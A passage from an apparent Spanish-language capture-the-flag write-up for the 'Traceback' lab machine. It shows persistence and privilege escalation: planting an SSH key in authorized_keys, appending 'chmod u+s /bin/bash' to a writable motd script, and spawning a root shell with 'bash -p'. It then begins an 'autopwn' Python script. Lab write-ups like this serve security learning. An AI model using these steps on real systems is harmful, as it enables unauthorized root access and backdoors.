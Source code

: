 
* Copio mi clave SSH pública y la voy a colocar en el archivo `authorized_keys` del usuario sysadmin.

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ....... intrusionz3r0@Intrusionz3r0" > /home/sysadmin/.ssh/authorized_keys
```

* Después aprovechandonos de que tenemos permisos de escritura en el motd lo modificare para que al final del script me ejecute un comando que me configure el bit SUID al binario `/bin/bash` para que esta se pueda ejecutar como el usuario `root`.

```
sysadmin@traceback:/etc/update-motd.d$ echo "chmod u+s /bin/bash" >> 00-header
```

Ahora solo iniciamos por ssh.

```console
intrusionz3r0@kali:~$  ssh sysadmin@traceback.htb
$ bash -p
```

**![](https://lh5.googleusercontent.com/oKFfbncZH_zEwmajE7HL4z3wTWpx8DNwHhzutN0FFFDGvgxz_vFEcD5XYpf9AGupZmK15C-zNcw7SNTFo3E5NmFfq1vMzs2yAABxtqFy4eiGODuI7xTlNy4JvcKmPeHen4bUAVXl)**

**¡¡Somos root!!**


![enter image description here](https://media.giphy.com/media/l4EpkVLqUj8BI7OV2/giphy.gif)

## Autopwn.

Esto no acaba aquí, vamos a construirnos un autopwn utilizando python. 

Asignamos la cabecera, importamos los paquetes a utilizar y asignamos un puerto con el que vamos a estar trabajando.

```python
#!/usr/bin/env python3
#Author: Intrusionz3r0 
import requests,time,threading,sys,signal
from pwn import *

#Variables Globales 
LPORT=1234
```


Utilizamos la librería `signal` para manejar la salida del programa.
```python
def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)
```
